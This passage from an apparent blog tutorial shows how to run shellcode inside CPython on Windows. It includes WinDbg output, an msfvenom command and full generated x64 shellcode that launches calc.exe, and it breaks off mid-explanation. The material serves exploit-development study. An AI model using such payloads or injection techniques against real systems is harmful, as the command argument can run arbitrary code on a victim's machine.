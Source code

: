 But it works!
```
(76e4.2b68): Break instruction exception - code 80000003 (first chance)
0000011c`74f882d0 cc              int     3
0:000> da
0000011c`74f882d0  ". Hello Success!!!"
```

### Crafting our Shellcode

We're gonna try running shellcode that calls `WinExec` to execute commands. I used `msfvenom`:

```python
> msfvenom -p windows/x64/exec CMD="calc.exe" EXITFUNC=none -f python

shellcode =  b""
shellcode += b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41"
shellcode += b"\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48"
shellcode += b"\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f"
shellcode += b"\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c"
shellcode += b"\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52"
shellcode += b"\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b"
shellcode += b"\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0"
shellcode += b"\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56"
shellcode += b"\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9"
shellcode += b"\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0"
shellcode += b"\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58"
shellcode += b"\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
shellcode += b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0"
shellcode += b"\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
shellcode += b"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
shellcode += b"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
shellcode += b"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41"
shellcode += b"\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xaa\xc5\xe2\x5d\x41"
shellcode += b"\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06"
shellcode += b"\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
shellcode += b"\x00\x59\x41\x89\xda\xff\xd5"
shellcode += b"calc.exe\x00" # <-- The command!
```

Attempting to run that successfully opens `calc.exe` but results in a crash in CPython:

```
(14b0.2714): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
000001e1`1696d51b 63616c          movsxd  esp,dword ptr [rcx+6Ch] ds:00000000`0000006c=????????
0:000> da
000001e1`1696d51b  "calc.exe"
```

It attempted to run `calc.exe`! Also remember how this shellcode should return a `PyObject*` so that CPython doesn't crash? Furthermore, msfvenom shellcode destroys the stack and some important registers (The audacity!). Hence, to ensure it doesn't crash we'd need to:
